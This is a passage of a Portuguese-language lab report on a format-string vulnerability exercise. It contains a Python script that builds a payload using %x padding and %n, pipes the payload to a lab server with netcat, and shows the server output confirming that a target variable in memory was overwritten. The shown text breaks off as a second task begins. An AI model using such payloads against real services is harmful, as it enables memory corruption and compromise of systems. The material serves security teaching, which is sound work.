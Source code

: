 Em primeiro lugar, o _output_ do servidor faz-nos saber que o endereço da varíavel _target_ (a que queremos mudar) é ```0x80e5068```.

Voltamos a recorrer a um pequeno _script_ de Python para construir o _input_ maligno (```badfile```):

```python
 1  #!/usr/bin/python3
 2  import sys
 3  N = 1500
 4  content = bytearray(0x0 for i in range(N))
 5  
 6  address = 0x080e5068
 7  content[0:4] = (address).to_bytes(4, byteorder='little')
 8  
 9  s = (".%x"*63) + ".%n\n"
10  fmt = (s).encode('latin-1')
11  content[4:4+len(fmt)] = fmt
12  
13  with open('badfile', 'wb') as f:
14      f.write(content)
```

Desta vez:

- Na linha 6, definimos o que irá ser escrito no início do _input_ como o endereço de memória cujo conteúdo queremos alterar;
- Com os ```.%x``` da linha 9, fazemos ```printf``` saltar as já familiares 63 posições de memória até chegar ao início do _input_. Sabemos que, então, na posição seguinte, estará o endereço do que nos interessa manipular. Agora, em vez de usarmos ```%s```, para imprimir o seu conteúdo como _string_, usamos ```%n```, para alterá-lo (seguido de ```\n```, que fará o _output_ mudar de linha, facilitando a leitura).

Assim, após gerar ```badfile``` e correr, como de costume ```cat badfile | nc 10.9.0.5 9090```, vemos, do lado do servidor:

![Tarefa 3A](images/LB 7/Tarefa 3A.png)

Tal como pode ser observado na imagem, o valor da variável-alvo foi alterado:

```
The target variable's value(before): 0x11223344

...

The target variable's value (after): 0x0000012c
```

### Tarefa 3B: Mudar o valor para ```0x5000```

Sabemos que ```%n``` escreve o número de caracteres até então no _output_. Tendo em conta que o valor a escrever na variável-alvo é ```0x5000```, que é ```20480``` em decimal, temos de fornecer um _input_ com 20480 caracteres até ```%n```.

Levamos a cabo o ataque com um pequeno programa em C:
